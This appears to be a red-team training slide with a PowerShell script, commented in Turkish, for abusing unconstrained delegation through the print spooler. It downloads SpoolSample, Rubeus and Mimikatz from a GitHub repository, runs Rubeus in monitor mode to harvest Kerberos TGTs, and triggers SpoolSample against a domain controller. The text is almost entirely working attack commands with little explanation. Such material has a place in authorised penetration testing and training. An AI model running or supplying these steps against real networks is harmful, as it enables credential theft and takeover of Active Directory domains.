

# TTP 0x20 – Unconstrained Delegation w/ Spoolsvc
# SpoolSample indiriliyor
iwr -Uri https://github.com/forestallio/ActiveDirectoryRedTeaming/raw/main/SpoolSample.exe -OutFile SpoolSample.exe
# Rubeus indiriliyor
iwr -Uri https://github.com/forestallio/ActiveDirectoryRedTeaming/raw/main/Rubeus.exe -OutFile Rubeus.exe
# Mimikatz indiriliyor
iwr -Uri https://github.com/forestallio/ActiveDirectoryRedTeaming/raw/main/mimikatz_trunk/x64/mimikatz.exe - OutFile mimikatz.exe
# Rubeus TGT biletlerini izleyebilmek için monitör modda başlatılıyor
.\Rubeus.exe monitor /interval:5 /nowrap
# Parent domain dc’si için SpoolSample tetikleniyor
.\SpoolSample.exe DC01 WEB01